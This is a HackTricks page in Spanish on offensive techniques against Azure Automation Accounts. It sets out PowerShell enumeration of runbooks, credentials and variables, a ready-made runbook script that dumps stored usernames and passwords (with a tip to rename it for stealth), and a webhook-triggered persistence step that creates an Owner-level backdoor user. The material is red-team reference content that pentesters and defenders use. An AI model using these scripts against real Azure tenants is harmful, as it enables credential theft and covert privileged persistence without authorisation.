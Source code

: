 # Az - Cuenta de Automatización

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF**, consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sigue** a **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de github** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Información Básica

Azure Automation ofrece un servicio de automatización basado en la nube, actualizaciones del sistema operativo y gestión de configuración que soporta una gestión consistente a través de tus entornos Azure y no Azure. Incluye automatización de procesos, gestión de configuración, gestión de actualizaciones, capacidades compartidas y características heterogéneas.

Estos son como "**tareas programadas**" en Azure que te permitirán ejecutar cosas (acciones o incluso scripts) para **gestionar**, verificar y configurar el **entorno de Azure**.

### Cuenta de Ejecución

Cuando se utiliza **Cuenta de Ejecución**, se crea una **aplicación** de Azure AD con certificado autofirmado, se crea un **principal de servicio** y se asigna el rol de **Contribuidor** para la cuenta en la **suscripción actual** (muchos privilegios).\
Microsoft recomienda usar una **Identidad Gestionada** para la Cuenta de Automatización.

{% hint style="warning" %}
Esto será **eliminado el 30 de septiembre de 2023 y cambiado por Identidades Gestionadas.**
{% endhint %}

## Runbooks & Trabajos

**Runbooks** te permiten **ejecutar código PowerShell arbitrario**. Esto podría ser **abusado por un atacante** para robar los permisos del **principal adjunto** (si lo hay).\
En el **código** de **Runbooks** también podrías encontrar **información sensible** (como credenciales).

Si puedes **leer** los **trabajos**, hazlo ya que **contienen** la **salida** de la ejecución (información **sensible** potencial).

Ve a `Cuentas de Automatización` --> `<Selecciona Cuenta de Automatización>` --> `Runbooks/Trabajos/Grupos de trabajadores híbridos/Tareas de observación/credenciales/variables/certificados/conexiones`

### Trabajador Híbrido

Un Runbook puede ejecutarse en un **contenedor dentro de Azure** o en un **Trabajador Híbrido** (máquina no Azure).\
El **Agente de Log Analytics** se despliega en la VM para registrarla como trabajador híbrido.\
Los trabajos del trabajador híbrido se ejecutan como **SYSTEM** en Windows y cuenta **nxautomation** en Linux.\
Cada Trabajador Híbrido está registrado en un **Grupo de Trabajadores Híbridos**.

Por lo tanto, si puedes elegir ejecutar un **Runbook** en un **Trabajador Híbrido Windows**, ejecutarás **comandos arbitrarios** dentro de una máquina externa como **System** (buena técnica de pivote).

## Configuración de Estado de Compromiso (SC)

Azure Automation **Configuración de Estado** es un servicio de gestión de configuración de Azure que te permite escribir, gestionar y compilar [configuraciones](https://learn.microsoft.com/en-us/powershell/dsc/configurations/configurations) de PowerShell Desired State Configuration (DSC) para nodos en cualquier nube o centro de datos local. El servicio también importa [Recursos DSC](https://learn.microsoft.com/en-us/powershell/dsc/resources/resources), y asigna configuraciones a nodos objetivo, todo en la nube. Puedes acceder a la Configuración de Estado de Automatización de Azure en el portal de Azure seleccionando **Configuración de estado (DSC)** bajo **Gestión de Configuración**.

**Información sensible** podría encontrarse en estas configuraciones.

### RCE

Es posible abusar de SC para ejecutar scripts arbitrarios en las máquinas gestionadas.

{% content-ref url="az-state-configuration-rce.md" %}
[az-state-configuration-rce.md](az-state-configuration-rce.md)
{% endcontent-ref %}

## Enumeración

{% code overflow="wrap" %}
```powershell
# Check user right for automation
az extension add --upgrade -n automation
az automation account list # if it doesn't return anything the user is not a part of an Automation group

# Gets Azure Automation accounts in a resource group
Get-AzAutomationAccount

# List & get DSC configs
Get-AzAutomationAccount | Get-AzAutomationDscConfiguration
Get-AzAutomationAccount | Get-AzAutomationDscConfiguration | where {$_.name -match '<name>'} | Export-AzAutomationDscConfiguration -OutputFolder . -Debug
## Automation Accounts named SecurityBaselineConfigurationWS... are there by default (not interesting)

# List & get Run books code
Get-AzAutomationAccount | Get-AzAutomationRunbook
Get-AzAutomationAccount | Get-AzAutomationRunbook | Export-AzAutomationRunbook -OutputFolder /tmp

# List credentials & variables & others
Get-AzAutomationAccount | Get-AzAutomationCredential
Get-AzAutomationAccount | Get-AzAutomationVariable
Get-AzAutomationAccount | Get-AzAutomationConnection
Get-AzAutomationAccount | Get-AzAutomationCertificate
Get-AzAutomationAccount | Get-AzAutomationSchedule
Get-AzAutomationAccount | Get-AzAutomationModule
Get-AzAutomationAccount | Get-AzAutomationPython3Package
## Exfiltrate credentials & variables and the other info loading them in a Runbook and printing them

# List hybrid workers
Get-AzAutomationHybridWorkerGroup -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME>
```
### Crear un Runbook

{% code overflow="wrap" %}
```powershell
# Get the role of a user on the Automation account
# Contributor or higher = Can create and execute Runbooks
Get-AzRoleAssignment -Scope /subscriptions/<ID>/resourceGroups/<RG-NAME>/providers/Microsoft.Automation/automationAccounts/<AUTOMATION-ACCOUNT>

# Create a Powershell Runbook
Import-AzAutomationRunbook -Name <RUNBOOK-NAME> -Path C:\Tools\username.ps1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Type PowerShell -Force -Verbose

# Publish the Runbook
Publish-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose

# Start the Runbook
Start-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -RunOn Workergroup1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose
```
### Exfiltrar Creds y Variables definidas en una Automation Account usando un Run Book

{% code overflow="wrap" %}
```powershell
# Change the crdentials & variables names and add as many as you need
@'
$creds = Get-AutomationPSCredential -Name <credentials_name>
$runbook_variable = Get-AutomationVariable -name <variable_name>
$runbook_variable
$creds.GetNetworkCredential().username
$creds.GetNetworkCredential().password
'@ | out-file -encoding ascii 'runbook_get_creds.ps1'

$ResourceGroupName = '<resource_group_name>'
$AutomationAccountName = '<auto_acc_name>'
$RunBookName = 'Exif-Credentials' #Change this for stealthness

# Creare Run book, publish, start, and get output
New-AzAutomationRunBook -name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName -Type PowerShell
Import-AzAutomationRunBook -Path 'runbook_get_creds.ps1' -Name $RunBookName -Type PowerShell -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName -Force
Publish-AzAutomationRunBook -Name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName
$start = Start-AzAutomationRunBook -Name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName
start-sleep 20
($start | Get-AzAutomationJob | Get-AzAutomationJobOutput).Summarynt
```
{% endcode %}

{% hint style="info" %}
Podrías hacer lo mismo modificando un Run Book existente, y desde la consola web.
{% endhint %}

## Persistencia

### Automatización que crea un usuario altamente privilegiado

* Crear una nueva Cuenta de Automatización
* "Crear cuenta de Azure Run As": Sí
* Importar un nuevo runbook que crea un usuario de AzureAD con permisos de Propietario para la suscripción
* Ejemplo de runbook para este Blog ubicado aquí – [https://github.com/NetSPI/MicroBurst](https://github.com/NetSPI/MicroBurst)
* Publicar el runbook
* Añadir un webhook al runbook
* Añadir el módulo AzureAD a la Cuenta de Automatización
* Actualizar los Módulos de Automatización de Azure
* Asignar derechos de "Administrador de Usuarios" y "Propietario de la Suscripción" a la cuenta de automatización
* Eventualmente perder tu acceso…
* Activar el webhook con una solicitud post para crear el nuevo usuario

{% code overflow="wrap" %}
```powershell
$uri = "https://s15events.azure-automation.net/webhooks?token=h6[REDACTADO]%3d"
$AccountInfo  = @(@{RequestBody=@{Username="BackdoorUsername";Password="BackdoorPassword"}})
$body = ConvertTo-Json -InputObject $AccountInfo
$response = Invoke-WebRequest -Method Post -Uri $uri -Body $body
```
{% endcode %}

## Referencias

* [https://learn.microsoft.com/en-us/azure/automation/overview](https://learn.microsoft.com/en-us/azure/automation/overview)
* [https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview](https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview)
* [https://github.com/rootsecdev/Azure-Red-Team#runbook-automation](https://github.com/rootsecdev/Azure-Red-Team#runbook-automation)

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de github** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
